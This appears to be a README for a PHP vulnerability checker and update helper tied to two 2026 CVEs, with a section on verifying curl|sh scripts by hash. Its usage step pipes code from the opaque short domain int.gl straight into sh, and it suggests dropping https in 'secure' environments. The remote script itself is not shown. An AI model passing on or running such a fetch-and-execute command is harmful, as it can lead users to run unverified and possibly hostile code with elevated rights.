


# (PHP) Environment checker + update helper 

A simple tool to check if your installation is affected by [CVE-2026-109618 and CVE-2026-109619](https://www.php.net/archive/2026.php#2026-10-21-5), patch/update PHP packages, and restart web/PHP services in one command. It verifies if your PHP version is patched with the latest releases (PHP 8.5.12, 8.4.27, 8.3.36, or 8.2.35).



Important: This is a version-based check, not a definitive vulnerability test. It may not recognize distro-specific backported security fixes. 

## Update with confirmation
Before making changes, it shows the exact commands it will run and asks for confirmation. Only the PHP-related packages are targeted. Upon confirmation, the tool updates PHP-related packages through the system package manager (prompting for sudo if necessary).

Important: Review the commands before proceeding, as package updates may affect running applications and services.



## Requirements
Tested on macOS, APT-based Linux (Debian/Ubuntu), RHEL-based Linux (Rocky/Alma), and Alpine Linux.

## Usage
Run the following command in your terminal:  
```bash
curl https://int.gl | sh
```
or `curl int.gl | sh` if you are in a secure environment. To view the code first, just run `curl int.gl`.

## (AI) Secure Pipeshell Validator

A zero-dependency shell script for (curl | sh). It prevents script tampering and version mismatches by verifying the SHA-256 hash of the payload before execution.

- Zero Contamination: Automatically strips the parent launcher routine, keeping your actual payload's hash independent of script changes.
- Clean Log Routing: Diverts all internal verification logs to stderr (>&2) to avoid polluting data payloads (stdout).

## Notes

This tool is partly derived from a private/internal project under development and may evolve into something different.

